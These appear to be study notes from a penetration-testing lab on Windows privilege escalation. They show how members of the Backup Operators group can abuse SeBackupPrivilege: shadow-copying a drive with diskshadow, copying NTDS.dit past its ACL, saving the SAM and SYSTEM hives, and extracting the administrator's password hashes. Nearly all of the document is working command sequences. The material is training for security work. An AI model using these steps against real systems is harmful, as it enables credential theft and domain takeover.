 ### Backup Operators group 
members of this group assigned sebackup
Membership of this group grants its members the `SeBackup` and `SeRestore` privileges. The [SeBackupPrivilege](https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges) allows us to traverse any folder and list the folder contents.
This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL). However, we can't do this using the standard copy command. Instead, we need to programmatically copy the data, making sure to specify the [FILE_FLAG_BACKUP_SEMANTICS](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) flag.

 allows you to create copies of any files/directories, use it to attack domain controllers by copying NTDs.dit, or use it to dump system registery and extract NTLM hashes from them.
We can use this [PoC](https://github.com/giuliano108/SeBackupPrivilege) to exploit the `SeBackupPrivilege`, and copy this file. First, let's import the libraries in a PowerShell session.

#### Importing Libraries
```powershell-session
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll
``` 
enable sebackup
```powershell-session
Set-SeBackupPrivilege
```
## Copying NTDS.dit

### copy entire C: Drive
```powershell-session
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```
![650](Pasted%20image%2020250312170542.png)
Next, we can use the `Copy-FileSeBackupPrivilege` cmdlet to bypass the ACL and copy the NTDS.dit locally.
```powershell-session
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```
#### Backing up SAM and SYSTEM Registry Hives

 which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`
 
```cmd-session
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV
C:\htb> reg save HKLM\SAM SAM.SAV
```
It's worth noting that if a folder or file has an explicit deny entry for our current user or a group they belong to, this will prevent us from accessing it, even if the `FILE_FLAG_BACKUP_SEMANTICS` flag is specified.


# from windows (extract hashes)
```powershell-session
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```
